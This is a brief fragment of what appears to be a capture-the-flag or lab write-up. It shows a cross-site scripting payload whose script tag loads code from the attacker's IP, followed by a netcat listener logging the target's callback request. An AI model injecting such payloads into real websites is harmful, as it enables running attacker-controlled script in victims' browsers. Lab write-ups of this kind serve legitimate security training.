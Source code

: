 Payload, web: `Haxx><script src="http://10.10.15.133/web"></script>` 

![](./attachments/Pasted%20image%2020220514180441.png)

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 80
listening on [any] 80 ...
connect to [10.10.15.133] from (UNKNOWN) [10.129.103.240] 56256
GET /web HTTP/1.1
Host: 10.10.15.133
(...)
```

